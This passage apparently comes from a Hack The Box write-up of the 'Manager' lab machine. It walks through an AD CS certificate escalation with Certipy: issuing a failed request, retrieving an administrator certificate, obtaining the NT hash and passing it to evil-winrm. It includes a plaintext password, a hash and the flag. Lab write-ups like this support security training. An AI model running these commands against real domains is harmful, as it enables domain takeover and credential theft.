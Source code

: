With our Manage CA and Manage Certificates, we can then issue the failed certificate request with the ca command and the -issue-request `<request ID>` parameter.

```sh
certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'

[*] Successfully issued certificate
```

And finally, we can retrieve the issued certificate with the req command and the -retrieve `<request ID>` parameter.

```sh
certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'   
                                                                    
[*] Rerieving certificate with ID 13          
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '13.key'                     
[*] Saved certificate and private key to 'administrator.pfx'

```

Now we can authenticate with the `administrator.pfx` file.

```sh
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236                                   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

Last step is to connect to WinRM as `administrator` with the hash we got above.

```sh
──(kali㉿kali)-[~/htb/manager]
└─$ evil-winrm -u administrator -H ae5064c2f62317332c88629e025924ef -i dc01.manager.htb

*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
d605dc102172ddfb0da7437bf8b86c79
```